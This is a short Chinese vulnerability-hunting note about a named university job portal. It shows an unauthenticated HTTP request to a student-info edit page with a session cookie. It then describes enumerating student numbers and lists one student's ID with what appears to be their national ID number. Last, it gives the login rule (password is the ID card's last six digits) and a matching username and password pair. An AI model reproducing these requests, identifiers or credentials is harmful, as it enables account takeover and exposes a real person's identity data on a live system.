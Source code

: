 ### 接⼝未授权

> /manage/StudentInfoEdit.aspx?Xsxh=202001601

```python
GET /manage/StudentInfoEdit.aspx?Xsxh=202001601 HTTP/1.1
Host: job.sicp.edu.cn
Cookie: ASP.NET_SessionId=okz05pupusuh3ovxsfpdzul2; _d_id=3ce9091257a65806c309b749782e32
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive


```

![image-20241014161838702](https://image.201068.xyz/assets/src挖掘/image-20241014161838702.png)

#### 学号遍历

![image-20241014162205523](https://image.201068.xyz/assets/src挖掘/image-20241014162205523.png)

> 202001602
>
> 230521200205083320

#### 登录

https://job.sicp.edu.cn/Login.aspx

> 账号：学号
>
> 密码：身份证后6位

```bash
202001602
083320
```

![image-20241014162950740](https://image.201068.xyz/assets/src挖掘/image-20241014162950740.png)
